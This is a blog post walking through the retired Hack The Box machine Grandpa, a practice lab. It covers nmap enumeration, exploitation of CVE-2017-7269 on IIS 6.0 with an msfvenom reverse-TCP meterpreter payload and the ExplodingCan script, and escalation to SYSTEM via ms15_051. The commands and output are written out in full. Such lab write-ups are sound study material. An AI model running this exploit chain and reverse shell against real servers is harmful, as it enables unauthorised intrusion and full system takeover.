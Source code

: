 ```yaml
---
layout: post
title: Hack the Box - Grandpa
date: 2020-05-24 12:26:22 +0100
description: Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploitedCVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge.
img: grandpa.png
fig-caption: Grandpa
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploitedCVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge.
## Enumeration
After carrying out some nmap scans it was clear this box was very similar to Granny, although the Dav vulnerability that allowed us to upload pages had been fixed.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/grandpa]
└─$ sudo nmap -p- -T4  10.129.59.43 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 12:46 GMT
Nmap scan report for 10.129.59.43
Host is up (0.017s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 88.12 seconds

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/grandpa]
└─$ sudo nmap -p80 --script vuln  10.129.59.43
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 12:49 GMT
Nmap scan report for 10.129.59.43
Host is up (0.017s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 152.86 seconds
```
However after enumerating the service version as shown below some googling revealed that it vulnerable to an RCE vulnerability. In an attempt to not use metasploit I found a python script that can exploit this vulnerability [ExplodingCan](https://github.com/danigargu/explodingcan)
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/grandpa]
└─$ sudo nmap -p80 -A  10.129.59.43 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 12:48 GMT
Nmap scan report for 10.129.59.43
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
```
## Foothold
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.27 LPORT=4422 > shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 770 (iteration=0)
x86/alpha_mixed chosen with final size 770
Payload size: 770 bytes

                                                                                                                                                                                                                                             
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ python 41738.py http://10.129.59.43 shellcode                                                                 
[*] Using URL: http://10.129.59.43
[*] Server found: Microsoft-IIS/6.0
[*] Found IIS path size: 18
[*] Default IIS path: C:\Inetpub\wwwroot
[*] WebDAV request: OK
[*] Payload len: 2283
[*] Sending payload...
[*] Socket timeout
[+] The host is maybe vulnerable
```
Having generated the payload and sent it off using the script, as long as there is a metasploit listener it should receive the reverse shell.
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4422 
[*] Sending stage (175174 bytes) to 10.129.59.43
[*] Meterpreter session 1 opened (10.10.14.27:4422 -> 10.129.59.43:1030) at 2021-03-15 14:17:39 +0000

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```
## Privilege Escalation
Once we receive the shell we have the network service system user, after we enumerate local exploits using the local_exploit_suggester in metasploit we find a successful exploit as shown below
```
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4949 
[*] Launching notepad to host the exploit...
[+] Process 1684 launched.
[*] Reflectively injecting the exploit DLL into 1684...
[*] Injecting exploit into 1684...
[*] Exploit injected. Injecting payload into 1684...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.129.59.43
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.27:4949 -> 10.129.59.43:1031) at 2021-03-15 14:20:04 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```